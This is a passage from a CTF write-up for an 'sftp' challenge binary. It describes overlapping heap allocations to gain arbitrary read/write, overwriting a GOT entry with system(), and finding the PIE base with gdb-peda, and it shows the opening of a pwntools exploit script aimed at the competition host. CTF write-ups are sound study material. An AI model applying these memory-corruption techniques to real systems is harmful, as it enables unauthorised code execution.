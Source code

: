 `file_entry` looks like the most easily exploitable datastructure.
If we can overwrite the data pointer (due to the data allocation of another file
overlapping it), then we have an arbitrary read/write primitive with the `get`
and `put` commands.

Now that we have a r/w primitive, we need to overwrite a function pointer to get
code execution. Overwriting a GOT entry to point to `system()` (or a "magic gadget")
would be a good idea. However, to access the GOT, we need to find the PIE ASLR offset.

The only data we reliably know the location of, is the data on the heap. Since all
the addresses of the `sftp` binary begin with `0x555555` (in gdb with ASLR disabled)
, we can use a bit of a hack to scan the heap for references to the main binary in gdb/peda:

```
gdb-peda$ find "UUU" 0x40000000 0x60100000
Searching for 'UUU' in range: 0x40000000 - 0x60100000
Found 1 results, display max 1 items:
mapped : 0x4926df34 --> 0x10000555555
gdb-peda$ x/1x 0x4926df31
0x4926df31:	0x000055555575cbe0
```

After a quick inspection of the disassembled code, it would appear that this
is the reference to the "root" file node, which is set up in one of the `init_array` functions.
Using this reference to the root file node, we can read and write the GOT entries.

## Implementation
Here's my final exploit implementation: (Cleaned up a lot since the CTF...)

```python
#!/usr/bin/python2
from pwn import *
from ctypes import *
import time

FILE_ENTRY = 0x2
class FileEntry(Structure):
	_fields_ = [
		("parent_directory", c_uint64),
		("entry_type", c_uint32),
		("name", type(create_string_buffer(20))),
		("size", c_uint64),
		("data", c_uint64),
	]

libctypes = CDLL('libc.so.6')
elf = ELF("./sftp")

TESTING = False
if TESTING:
	libc = ELF("/lib/libc.so.6")
	start_time = time.time()
	sftp = process("./sftp")
else:
	# libc unknown :(
	LOCAL_TIME_OFFSET = 2.1 # via https://time.is - "Your clock is 2.1 seconds ahead."
	remote_time_now = time.time() - LOCAL_TIME_OFFSET
	start_time = round(remote_time_now)+0.5
	time.sleep(start_time-remote_time_now) # start exactly halfway between two seconds
	sftp = remote("sftp.ctfcompetition.com", 1337)

# setup heap prediction
libctypes.srand(int(start_time))
malloc_count = 0 # purely for info
def malloc():
	global malloc_count
```